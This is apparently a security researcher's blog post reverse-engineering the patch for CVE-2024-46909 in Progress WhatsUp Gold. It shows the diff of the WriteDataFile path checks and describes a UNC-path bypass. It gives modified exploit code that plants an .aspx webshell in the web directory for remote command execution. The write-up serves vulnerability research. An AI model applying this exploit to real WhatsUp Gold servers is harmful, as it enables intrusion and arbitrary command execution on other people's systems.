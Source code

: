 ```yaml
---
layout: post
title: (CVE-2024-46909) Progress Software WhatsUp Gold WriteDataFile Directory Traversal Remote Code Execution Vulnerability 
tag:
- CVE
- RCE
---
```




I haven't done any CVE reverse engineer blogposts before but really wanted to do one, so I decided look at something this Advisory [https://www.zerodayinitiative.com/advisories/ZDI-24-1645/](https://www.zerodayinitiative.com/advisories/ZDI-24-1645/) looked interesting and I already had some idea about it from a past blogpost from the original finder of the same bug 
@SinSinology,  the vulnerable component name is same so it would be just a bypass of the old bug

Below you can find the original blogpost of the old bug, we have detailed blogpost and the poc too :

[https://summoning.team/blog/progress-whatsup-gold-writedatafile-cve-2024-4883-rce/](https://summoning.team/blog/progress-whatsup-gold-writedatafile-cve-2024-4883-rce/)

[https://github.com/sinsinology/CVE-2024-4883](https://github.com/sinsinology/CVE-2024-4883)


The details looks exactly the same I so quicly downloaded the patched version to do a patch diff [https://www.zerodayinitiative.com/advisories/ZDI-24-1645/](https://www.zerodayinitiative.com/advisories/ZDI-24-1645/) . I already had an old version installed so I took a backup of the following two files

```
C:\Program Files (x86)\Ipswitch\WhatsUp\NmAPI.exe
C:\Program Files (x86)\Ipswitch\WhatsUp\WUGDataAccess.dll
```

After downloading the latest version and installing it , I exported the source from dotPeek and did a diff using DiffMerge

The declaration of the `WriteDataFile` method is in the NmAPI.exe!NmAPI.CoreServices.cs

Here's the Diff version of the `WriteDataFile` method 

```diff
     public void WriteDataFile(EntityDataFileTransfer dataFile)
     {
-      if (dataFile.FileInfo.DirectoryName.Contains("..") || dataFile.FileInfo.DirectoryName.Contains(":") || dataFile.FileInfo.Name.Contains("..") || dataFile.FileInfo.Name.Contains(":"))

+      if (dataFile.FileInfo.DirectoryName.Contains("..") || dataFile.FileInfo.DirectoryName.Contains(":") || dataFile.FileInfo.Name.Contains("..") || dataFile.FileInfo.Name.Contains(":") || dataFile.FileInfo.Name.Contains<char>('\\') || dataFile.FileInfo.Name.Contains<char>('/') || dataFile.FileInfo.DirectoryName.StartsWith("\\") || dataFile.FileInfo.DirectoryName.StartsWith("/"))

         throw new ArgumentException("Invalid file or directory name");
       string str = Path.Combine(Directory.GetCurrentDirectory(), "Data" + dataFile.FileInfo.DirectoryName);
       string path = Path.Combine(str, dataFile.FileInfo.Name);

+      if (!Path.GetFullPath(path).StartsWith(Path.GetFullPath(str), StringComparison.OrdinalIgnoreCase))
+        throw new ArgumentException("Invalid directory");
       
       if (File.Exists(path))
       {
         File.SetAttributes(path, FileAttributes.Archive);
```

Initially the if checks for the `dataFile.FileInfo.DirectoryName` and `dataFile.FileInfo.Name` were added to resolve the old issue CVE-2024-4883 , we can see now they added more checks there

```cs
dataFile.FileInfo.Name.Contains<char>('\\')
dataFile.FileInfo.Name.Contains<char>('/')

dataFile.FileInfo.DirectoryName.StartsWith("\\")
dataFile.FileInfo.DirectoryName.StartsWith("/")
```

Basically they are just checking if the Name and DirectoryName property Contains or StartsWith `//` ,`\` characters or not.

For Windows `\\` is treated as Network Path (UNC Path) , for eg \\ServerName\SharedFolder . So I thought the bypass is related to that only , I went with this path of thinking , if C directory where Whatsupgold is installed is being shared then it might be accessible under `\\PC-Name\`

![image](https://gist.github.com/user-attachments/assets/f27b1a32-b63b-4143-b086-71fb77e2f3bf)

Just an example UNC path which could get pass the if check: `\\Desktop-5i7nkh0\c\Program Files (x86)\Ipswitch\WhatsUp\html\NmConsole`

--------------------------------


In the exploit which @SinSinology originaly wrote you can see how the path is specified. All we need to do replace the value for the `webshell_path` variable with the UNC one

```cs
            string webshell_path = @"C:\Program Files (x86)\Ipswitch\WhatsUp\html\NmConsole\" + webshell_name;

            EntityDataFileTransfer dataFile = new EntityDataFileTransfer
            {
                FileInfo = new EntityFileInfo
                {
                    DirectoryName = "test",
                    Name = webshell_path,
                    LastWriteTime = DateTime.Now
                },
                FileContents = System.IO.File.ReadAllBytes(webshell)
            };
            Console.WriteLine("(*) Using write what where primitive, to plant " + webshell_path);
            core_client.WriteDataFile(dataFile);
```

```cs
string webshell_path = @"\\Desktop-5i7nkh0\c\Program Files (x86)\Ipswitch\WhatsUp\html\NmConsole\" + webshell_name;
```

Then just Build the Solution and execute the binary. It will write the content pointed out by the  `webshell` file and it will be written in the `C:\Program Files (x86)\Ipswitch\WhatsUp\html\NmConsole\` on the targetted system.

Thus by visiting the uploaded .aspx file location we can execute arbitrary commands.

A small gif for the exploit in action:

![518N76pbo5](https://gist.github.com/user-attachments/assets/aa9b7906-53d9-4e1a-b673-788d285816fd)
